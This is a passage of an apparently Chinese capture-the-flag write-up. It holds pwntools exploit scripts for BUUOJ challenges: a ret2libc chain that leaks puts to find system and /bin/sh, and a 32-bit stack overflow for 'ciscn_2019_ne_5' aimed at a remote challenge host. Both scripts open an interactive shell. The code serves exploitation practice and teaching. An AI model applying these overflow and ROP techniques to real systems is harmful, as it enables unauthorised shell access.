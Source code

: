 ```python

payload = b'\x00'+b'A'*87
payload+= p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(encrypt)

p.recvuntil(b'Input your Plaintext to be encrypted')
p.sendline(payload)

p.recvuntil(b"Ciphertext")
puts_addr = u64(p.recv(8)[2:8].ljust(8,b'\x00'))

info(hex(puts_addr))

libc_base = puts_addr - puts_offset
system_addr = libc_base + system_offset
binsh_addr = libc_base + binsh_offset

payload = b'\x00'+b'A'*87
payload+= p64(pop_rdi)+p64(binsh_addr)+p64(ret)+p64(system_addr)

p.sendline(payload)

p.interactive()
```

## ciscn_2019_ne_5
### 思路
32位传参

### exp
```python
from pwn import *

context.log_level = 'debug'

p = remote("node5.buuoj.cn",29664)
#p = process("./ciscn_2019_ne_5")

system_addr = 0x080484D0
main = 0x08048722
binsh = 0x080482ea

def overflow(payload):
    p.recvuntil(b'password')
    p.sendline(b'administrator')

    p.recvuntil(b'operation')
    p.sendline(b'1')

    p.recvuntil(b'info')
    p.sendline(payload)

    p.recvuntil(b'operation')
    p.sendline(b'4')

payload = b'A' * 76 + p32(system_addr) + p32(main) + p32(binsh)

overflow(payload)

p.interactive()
```
